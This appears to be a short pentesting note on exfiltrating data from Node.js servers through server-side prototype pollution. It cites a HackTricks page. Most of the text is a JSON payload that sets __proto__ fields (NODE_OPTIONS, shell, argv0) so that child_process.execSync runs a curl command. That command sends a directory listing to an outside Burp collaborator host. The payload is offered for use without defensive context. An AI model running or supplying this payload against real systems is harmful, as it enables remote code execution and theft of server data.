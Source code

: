 


### Exfiltrating sensitive data via server-side prototype pollution\
Payload
```js
URL's : https://book.hacktricks.wiki/en/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce.html?highlight=prototype%20rce#prototype-pollution-to-rce

'{
	"__proto__": 
	{
		"NODE_OPTIONS": "--require /proc/self/cmdline", 
		"shell": "node",
		"argv0": "require('child_process').execSync('curl `ls ` burpsuite-collbabrator') //"
	}
}'
```